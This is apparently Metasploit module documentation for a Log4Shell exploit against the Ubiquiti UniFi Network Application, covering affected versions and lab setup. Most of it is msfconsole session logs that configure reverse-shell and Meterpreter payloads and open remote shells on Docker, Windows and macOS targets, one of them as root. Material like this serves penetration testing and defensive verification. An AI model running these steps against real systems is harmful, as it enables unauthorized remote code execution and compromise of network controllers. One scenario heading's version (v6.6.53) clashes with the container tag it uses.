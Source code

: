 ## Vulnerable Application

### Description
The Ubiquiti UniFi Network Application versions 5.13.29 through 6.5.53 are affected by the Log4Shell
vulnerability whereby a JNDI string can be sent to the server that will cause it to connect to the attacker and
deserialize a malicious Java object. This results in OS command execution.

This module will start an LDAP server that the target will need to connect to.

### Setup

1. Either install the Windows application, or start the docker container (use jacobalberty/unifi:v6.5.53).
2. Navigate to the service on HTTPS port 8443 to setup the UniFi controller.
3. On step 2, select the button to "Switch to Advanced Setup"
4. While still on step 2, disable the remote access and "Use your Ubiquiti account for local access" options, then
   create a local account.
5. On step 5, when prompted to setup WiFi, select the "Skip" button in the bottom right corner.
6. Review the configuration, and finalize it.

Older versions of the UniFi Network Application can be downloaded from [community.ui.com][1].

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/ubiquiti_unifi_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Scenarios

### UniFi Network Application v6.6.53 on Docker
This uses jacobalberty/unifi:v6.5.53. Note that tags v6.5.54, v6.0.45, and v5.14.23 all contain the fix for this
vulnerability. See [jacobalberty/unifi](https://hub.docker.com/r/jacobalberty/unifi) for more information.


```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Unix
TARGET => Unix
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.250.6
RHOST => 192.168.250.6
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 5 opened (192.168.250.134:4444 -> 192.168.250.6:44984 ) at 2022-01-14 09:21:04 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/lib/unifi
```

### UniFi Network Application v6.5.53 on Windows Server 2016

```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Windows
TARGET => Windows
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.159.65
RHOST => 192.168.159.65
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.65
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.65:51940 ) at 2022-01-14 09:19:25 -0500
[*] Server stopped.

meterpreter > getuid
Server username: WIN-BPID95ACQ7E\smcintyre
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### UniFi Network Application v5.14.22 on OSX 11.2.3

```
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > show options

Module options (exploit/multi/http/ubiquiti_unifi_log4shell):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LDIF_FILE                   no        Directory LDIF file path
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     111.111.1.11     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    222.222.2.222    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    389              yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_zsh):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  222.222.2.222    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix


msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > run

[*] Started reverse TCP handler on 222.222.2.222:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unexpected request 2
[*] Command shell session 2 opened (222.222.2.222:4444 -> 111.111.1.11:50474 ) at 2022-01-20 07:20:22 -0500
[*] Server stopped.

id
uid=501(yourmom) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),399(com.apple.access_ssh),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),400(com.apple.access_remote_ae)
```

[1]: https://community.ui.com/releases?q=network+application
